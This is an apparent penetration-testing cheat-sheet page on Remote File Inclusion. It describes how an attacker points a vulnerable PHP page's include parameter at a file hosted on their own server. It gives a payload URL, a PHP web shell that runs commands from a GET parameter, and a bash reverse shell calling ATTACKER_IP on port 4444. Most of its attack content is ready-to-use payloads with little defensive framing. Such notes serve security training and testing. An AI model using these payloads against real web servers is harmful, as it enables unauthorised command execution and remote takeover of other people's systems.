

# Remote File Inclusion (RFI)

<figure><figcaption></figcaption></figure>

The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:

* Sensitive Information Disclosure
* Cross-site Scripting (XSS)
* Denial of Service (DoS)

## Payload

<pre class="language-url"><code class="lang-url"><strong>http://victim.com/index.php?page=http://AttackerWebServer.com/cmd.txt or any file
</strong></code></pre>

* Cmd.txt includes malicious code

Essentially we add our website on the parameter and then the victim website retrives the file from our website and it runs the file  RCE. This way we can upload files and run the them like revshells

## Malicious code

Examples

Revshell - Command

```php
<?php system($_GET['cmd']); ?>
# or a more interactive exec:
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'"); ?>
# or
<?PHP echo "it works"; ?>
```


upload a reverse‑shell _script_ it generally must be written in a language the webserver can execute (PHP for a PHP site, ASP/ASPX for IIS, JSP for Tomcat, etc.)

